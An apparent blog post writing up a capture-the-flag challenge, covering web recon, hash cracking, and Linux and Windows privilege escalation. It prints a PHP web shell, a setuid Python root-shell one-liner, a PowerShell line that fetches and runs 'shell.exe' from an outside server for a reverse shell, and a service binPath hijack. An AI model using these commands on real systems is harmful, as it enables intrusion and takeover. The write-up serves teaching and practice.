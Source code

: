 ```yaml
---
title: "Cracking the Code: A Deep Dive into CTF Challenges"
date: "2025-02-03"
author: "Sumon Nath"
tags: [CTF, cybersecurity, ethical hacking, write-up]
---
```


# Cracking the Code: A Deep Dive into CTF Challenges

CTF (Capture The Flag) competitions have become a staple for cybersecurity enthusiasts and professionals alike. These events challenge participants to exploit vulnerabilities, analyze cryptographic puzzles, and reverse-engineer binaries. In this blog, I'll walk you through my experience solving a recent CTF challenge, highlighting key methodologies and takeaways.

---

## Challenge: **Web & System Exploitation - "Hidden Secrets"**

### **Reconnaissance**
The first step in any CTF challenge is reconnaissance. Using `nmap`, I scanned the provided domain:

```bash
nmap -sC -sV -p- target-website.com
```

The scan revealed that the web server was running Apache 2.4.41 and had an open **robots.txt** file. A quick visit to `target-website.com/robots.txt` showed the following:

```
User-agent: *
Disallow: /admin
```

This hinted at a restricted `/admin` page. Time to dig deeper!

---

### **Finding Hidden Directories**
Using `gobuster`, I enumerated hidden directories:

```bash
gobuster dir -u http://target-website.com -w /usr/share/wordlists/dirb/common.txt
```

Bingo! It found `/admin-panel` and `/backup`. Checking `/backup`, I found an **old database dump (`backup.sql`)**. Downloading and inspecting it, I discovered a list of hashed passwords.

---

### **Cracking the Hashes**
With the hashes in hand, I used `hashcat` to crack them:

```bash
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt --force
```

One of the hashes revealed a password: `p@ssw0rd123`. Testing this on the `/admin-panel` login page granted me access!

---

## **Linux Exploitation**

### **Exploiting File Upload Vulnerability**
Inside the admin panel, there was a **file upload** functionality. My first test was uploading a simple `.php` file containing:

```php
<?php
  system($_GET['cmd']);
?>
```

Renaming it to `shell.php.jpg` bypassed client-side validation. Then, I accessed it via:

```
http://target-website.com/uploads/shell.php.jpg?cmd=whoami
```

Success! I gained remote command execution (RCE).

### **Privilege Escalation & Flag Capture**
Listing user privileges with:

```bash
ls -la /home/admin
```

I found a **flag.txt** file but had no read access. Checking for **SUID binaries**, I found:

```bash
find / -perm -4000 2>/dev/null
```

Among the results was `/usr/bin/python3.8`. Using it to escalate privileges:

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Now as root, I read the flag:

```bash
cat /root/flag.txt
```

**FLAG: `CTF{linux_priv_esc_success}`**

---

## **Windows Exploitation**

### **SMB Enumeration**
Using `smbclient` to check for shared resources:

```bash
smbclient -L \\target-ip\ -U anonymous
```

A shared folder **'public'** was accessible, containing a PowerShell script.

### **Exploiting Weak PowerShell Scripts**
Examining `script.ps1`, I found hardcoded admin credentials:

```powershell
$username = "admin"
$password = "P@ssword123"
```

Using this, I connected via Remote Desktop:

```powershell
mstsc /v:target-ip
```

Once inside, I used `meterpreter` for post-exploitation:

```powershell
Invoke-WebRequest -Uri http://myserver/shell.exe -OutFile shell.exe
Start-Process shell.exe
```

I now had a reverse shell!

---

### **Privilege Escalation & Flag Capture (Windows)**
Checking for misconfigurations, I found a **vulnerable service running with SYSTEM privileges**. Exploiting it:

```powershell
sc config VulnService binPath= "C:\Users\Public\malicious.exe"
net start VulnService
```

This escalated my privileges to SYSTEM, allowing me to read:

```powershell
type C:\Users\Administrator\Desktop\flag.txt
```

**FLAG: `CTF{windows_priv_esc_success}`**

---

## **Key Takeaways**
1. **Always check `robots.txt` and backups** – they can reveal sensitive info.
2. **Directory brute-forcing is a must** for uncovering hidden admin panels.
3. **Weak password hashes can be cracked easily** – use strong, unique passwords.
4. **File upload vulnerabilities are still common** – always sanitize inputs.
5. **Privilege escalation via SUID binaries (Linux) & services (Windows)** is an effective way to gain root access.

---

## **Final Thoughts**
This CTF challenge was a great exercise in **web, Linux, and Windows exploitation**, showcasing real-world attack techniques. Whether you're a beginner or an expert, CTFs help sharpen skills and enhance problem-solving abilities.

Looking forward to the next challenge! 🚀

---

💡 **Want more CTF write-ups?** Stay tuned for more cybersecurity insights and walkthroughs!

